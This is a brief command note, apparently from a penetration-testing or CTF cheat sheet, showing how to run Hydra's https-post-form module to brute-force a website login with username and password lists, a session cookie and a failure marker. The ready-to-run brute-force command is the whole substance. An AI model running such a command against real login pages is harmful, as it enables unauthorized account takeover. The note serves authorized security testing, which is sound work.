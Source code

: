 # Command

#### Hydra https-post-form
Note: Not add the schema -> website.net instead of https://website.net
```
sudo hydra -L usernames -P passwords website.net https-post-form "/login:username=^USER^&password=^PASS^:H=Cookie: session=vmHyautfoxx2Peek4LJu9J4vt0S14SrN:F=Invalid"
```

